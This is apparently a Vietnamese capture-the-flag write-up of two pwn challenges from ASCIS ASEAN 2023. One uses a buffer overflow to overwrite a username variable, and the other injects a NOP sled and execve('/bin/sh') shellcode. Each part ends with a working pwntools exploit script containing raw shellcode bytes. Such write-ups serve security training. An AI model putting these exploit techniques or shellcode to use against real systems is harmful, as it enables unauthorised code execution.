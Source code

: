 ```yaml
---
title: ASCIS ASEAN 2023 WriteUp
date: 2023-06-06 06:21:00 +07:00
categories: [CTF]
tags: [pwn, CTF, writeup]
---
```


# ASCIS ASEAN 2023 WriteUp

## Đôi lời tâm sự:

Author: SeaWind (J4ckP0t)

Vì đây là vòng khởi động nên có thể năm nay các challenges về pwn có vẻ tương đối dễ thở. Cho nên hơn thua nhau ở các đội khi làm về mảng pwn là việc team nào giải ra nhanh hơn thôi :cold_sweat:

Đối với mình thì tốc độ chưa bao giờ là lợi thế của mình, thường đối với một challenge dù dễ thì mình cũng cần mất tương đối thời gian mới có thể identify lỗi và exploit nó được. :face_with_head_bandage:

Thôi tám chuyện vậy là đủ rồi, vào phần writeup thôi.

## Pwn1:

- Đề bài: [Challenge_link](https://warmup.ascis.vn/files/1e51e32a1d3b2caa96a46fc749772922/pwn?token=eyJ1c2VyX2lkIjozNjQ0LCJ0ZWFtX2lkIjo2NDMsImZpbGVfaWQiOjU4fQ.ZSGJRQ.FD4hStkqb5sR42vgzIG0yuOQoH8)
- Solution:

Đầu tiên ta sẽ tiến hành kiểm tra các mitigations của file challenge này.

![](https://hackmd.io/_uploads/r1hFsb1Wp.png)

Ở đây thì có mitigation của stack và PIE mitigation đã tắt (điều này sẽ có lợi cho lỗi bufferoverflow nên trong chương trình có tồn tại lỗi đó)

Tiếp đến ta sẽ check đến luồng thực thi và cấu trúc chương trình thông qua IDA Pro.

![](https://hackmd.io/_uploads/SkUmnZyWT.png)

Chương trình sẽ có 3 chức năng chính:

**1. Login():** (option=1) Hàm này sẽ tiến hành kiểm tra ta đã login chưa thông qua giá trị của biến old_user và old_passwd (Hàm này dường như không có ích gì trong việc khai thác lỗ hổng của ta)

![](https://hackmd.io/_uploads/rkY23Wkbp.png)

**2. Signup():** (option=2) Hàm này sẽ tiến hành đọc từ input của ta về username và passwd (trừ username = admin) và lưu giá trị vào trong biến old_user và old_passwd (Đây là hàm mà chúng ta sẽ tiến hành khai thác lỗ hỗng ở đây)

![](https://hackmd.io/_uploads/H1APpZk-p.png)

**3. getflag():** (option=4) Hàm này chính là hàm mà chúng ta hướng đến, hàm này sẽ kiểm tra giá trị của biến old_user có = với "admin" không. Nếu có thì sẽ leak ra flag cho chúng ta.

![](https://hackmd.io/_uploads/SJ_fCZ1ba.png)

Ở trong hàm Signup này thì ta thấy ngay được lỗ hổng buffer overflow ở ngay hàm `scanf('%s')` khi hàm này sẽ cho ta phép nhập input ở đến khi gặp dấu `'\n'` hoặc dấu `' '` (dấu xuống hàng và dấu khoảng trắng) ở trong input của cà username và passwd.

![](https://hackmd.io/_uploads/By5I1G1ZT.png)

![](https://hackmd.io/_uploads/SyVdkGyb6.png)

Ban đấu ý tưởng của mình là sử dụng lỗi buffer overflow này để tiến hành ghi đè địa chỉ của RIP ở điều hướng chương trình này sang hẳn hàm open flag trong hàm getflag luôn. Nhưng mà khổ nỗi là địa chỉ của hàm getflag ấy có chứa mã hex của `'\n'` nên căn bản là không thể ghi đè đầy đủ địa chỉ được đó.

Và mình đã rất chật vật để làm sao để có thể ghi đè địa chỉ RIP của hàm là địa chỉ của hàm getflag theo ý mình muốn nhưng mã không được.

Cho đến khi mình được gợi ý rằng là đối lúc chúng ta cần phải chơi đúng luật chơi một chút :V

Căn bản là chúng ta vẫn sẽ khai thác lỗi buffer overflow nhưng chúng ta sẽ tiến hành ghi đè giá trị của biến `old_user` sẽ là "admin" thông qua việc kết hợp buffer overflow của input nhập passwd + hàm strncpy.

Tại sao mình lại có thể ghi đè được giá trị của biến `old_user` ư? Nếu ta để ý kỹ thì input của việc nhập username cũng như passwd của ta được lưu vào 2 biến local của hàm.

![](https://hackmd.io/_uploads/ryQ7fMJWp.png)

Trong đó ta thấy biến `src` (chứa input của nhập passwd) nằm trước biến `s1` (chứa input của nhập username) của ta cho nên nếu ta lặp đầy biến `src` 64 bytes + chuỗi string `admin` thì ta sẽ ghi đè giá trị trong biến local `s1`

Sau đó hàm strncpy sẽ lưu giá trị của biến `s1` vào trong biến `old_user` và `src` vào trong biến `old_passwd`

![](https://hackmd.io/_uploads/ryfMXGJba.png)

Giờ thì ta đã thành công truyền được string `admin` vào trong biến `old_user` rồi. Gọi hàm **getflag()** và in ra flag thôi.

- Answer: Đây là script giải bài của mình:

```python!=
from pwn import *
context.binary = "./pwn"
#p = process("139.180.137.100", 1337)
p = process()
p.sendline(b'2')
print(p.recv())
p.sendline(b'a')
print(p.recv())
p.sendline(cyclic(64)+b'admin')
print(p.recv())
#p.sendline(b'1')
#print(p.recv())
#p.sendline(cyclic(72)+p64(0x0000000000400aac))
p.sendline(b'4')
p.interactive()
```

## Pwn2:

- Đề bài: [Challenge_link](https://warmup.ascis.vn/files/c6ec92ba170edf460b4eec3f8dd9cf3e/pwn2?token=eyJ1c2VyX2lkIjozNjQ0LCJ0ZWFtX2lkIjo2NDMsImZpbGVfaWQiOjU5fQ.ZSGJ9A.JajO4Fjeg9uI0hpD9nYzv9FmzDE)
- Soluton:

Đầu tiên ta sẽ tiến hành kiểm tra các mitigations của challenge này.

![](https://hackmd.io/_uploads/B1Awimg-T.png)

Oh wow! Tất cả các mitigations đều không được bật. Một mảnh đất đầy màu mỡ cho việc khai thác lỗ hổng :relaxed:

Tiếp đến thì ta sẽ tiến hành xem mã giả và luồng thực thi chương trình thông qua IDA Pro.

![](https://hackmd.io/_uploads/HyHXnXlWT.png)

Phân tích luồng thực thi của chương trình thì ta thấy ngay rõ ràng ở hàm getflag có lỗ hỗng shellcode execution (do ta thấy mitigation của challenge này đã disable NX và có RWX segments)

Tức là việc ở input thứ 2 (cụ thể là ở hàm `read(0,s,0x64)`) thì ta có thể inject shellcode để có thể chiếm được shell của chương trình

Đến đây thì ta cần biết chút ít về lập trình assembly (cụ thể là kiến trúc x86-64) ở để có thể viết được shellcode chiếm shell

Thì ở solution của mình, vì lúc đó trong thời gian thi (áp lực các kiểu) và một phần là do mình lười :V , cho nên mình sẽ sử dụng shellcode có sẵn trên mạng (nguồn mình sẽ để ở đây [link](https://shell-storm.org/shellcode/files/shellcode-603.html))

Vì shellcode này chỉ có 30 bytes length trong khi trong hàm main sẽ kiểm tra xem length của shellcode mà mình nhập vào có lớn hơn 39 (0x27) hay không. Cho nên để lấp đầy phần còn thiếu trong shellcode thì mình sẽ sử dụng lệnh nop (hay còn gọi là kỹ thuật nop sled với chức năng là không làm gì cả :V, nó sẽ tiến hành thực thi lệnh nop để trượt dài cho đến shellcode của mình).

- Answer: Đây là script để giải ra bài này của mình:

```python!=
from pwn import *
context.binary = "./pwn2"
p = process()
#p = remote("139.180.137.100", 1338)
#p = gdb.debug("./pwn2")
p.send(cyclic(0x32))
p.recv()
payload = b'\x90'*60
payload += b'\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05'
p.send(payload)
p.interactive()
```
